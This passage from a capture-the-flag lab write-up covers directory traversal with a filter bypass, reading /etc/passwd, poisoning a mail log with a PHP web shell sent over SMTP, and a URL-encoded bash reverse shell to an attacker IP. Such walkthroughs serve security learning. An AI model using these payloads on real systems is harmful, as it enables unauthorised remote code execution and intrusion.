 - `......///` -> `....[../]//` -> `....//` -> `..[../]/` -> `../`

![Web 50000 Directory Traversal Payload Three](port_50000_directory_traversal_payload3.webp){: width="1000" height="300" }

We can confirm that our directory traversal payload works by trying to read the `/etc/passwd` file.

![Web 50000 Directory Traversal Payload Success](port_50000_directory_traversal_success.webp){: width="1000" height="300" }

### Log Poisoning to RCE

Now that we are able to include any local files, we can look for any log files we can poison to include.

At this point, there are two logs we can both include and poison. I will show how to abuse both.

- `/var/log/mail.log`
- `/var/log/auth.log` 

We are able to include the `/var/log/mail.log` file.

![Web 50000 Directory Traversal Payload Auth Log](port_50000_directory_traversal_mail_log.webp){: width="1000" height="300" }

Since the SMTP service is running, we can poison this log file.

To poison the log, we need to try to send a mail with our PHP code payload as an address, and it will be logged as an invalid address received. 

We can use telnet for this.

```console
$ telnet 10.10.202.40 25
Trying 10.10.202.40...
Connected to 10.10.202.40.
Escape character is '^]'.
220 mail.filepath.lab ESMTP Postfix (Ubuntu)
helo ok
250 mail.filepath.lab
mail from: <?php system($_GET["cmd"]); ?>
501 5.1.7 Bad sender address syntax
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

After this, we can see that we were successful at poisoning the log, and we can use this to run commands on the system.

![Web 50000 Directory Traversal Payload Mail Log Test](port_50000_directory_traversal_mail_log_test.webp){: width="1000" height="500" }

Now, we can use a reverse shell payload like so: `bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'` to get a shell on the system with the request:

- `/profile.php?img=......///......///......///......///var/log/mail.log&cmd=bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E11%2E72%2E22%2F443%200%3E%261%27`

<br>

---